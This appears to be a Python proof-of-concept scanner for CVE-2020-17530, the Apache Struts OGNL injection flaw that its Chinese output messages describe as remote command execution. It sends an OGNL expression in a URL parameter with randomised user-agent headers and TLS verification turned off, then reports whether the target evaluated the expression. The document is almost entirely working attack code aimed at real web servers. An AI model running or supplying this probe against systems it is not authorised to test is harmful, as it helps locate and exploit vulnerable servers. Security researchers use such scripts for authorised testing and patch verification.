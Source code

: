 ```python
    "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1) ;  QIHU 360EE)"
    
]
def poc(url, port):
    payload = "/?id=%25%7b+%27test%27+%2b+(2021+%2b+20).toString()%7d"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1",
               "Connection": "close"}
    user_agent = random.choice(ua_list)    ##随机取其中一个ua头
    headers["User-Agent"] = user_agent    ##替换字典中的值
    try:
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        if "test2041" in r.text:
            print(f"[+]{url}存在CVE-2020-17530远程命令执行漏洞")
        else:
            print(f"[-]{url}不存在CVE-2020-17530远程命令执行漏洞")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)


def main():
    banner = """
  .:: ::    .::                   .::                 
.::    .::  .::                   .::          .:::.: 
 .::      .:.: .:.: .:::.::  .::.:.: .: .:::: .:    .:
   .::      .::   .::   .::  .::  .::  .::        .:: 
      .::   .::   .::   .::  .::  .::    .:::   .::   
.::    .::  .::   .::   .::  .::  .::      .::.::     
  .:: ::     .:: .:::     .::.::   .:: .:: .::.:::::::
    """
    print(banner)
    print("Vulnerability version: x1.6.0-x2.2.3")
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
    parser.add_argument("-p", dest="port", required=False, type=int, default=8080,
                        help="The default vulnerability port is 80")
    args = parser.parse_args()
    poc(args.url, args.port)


if __name__ == '__main__':
    main()

```

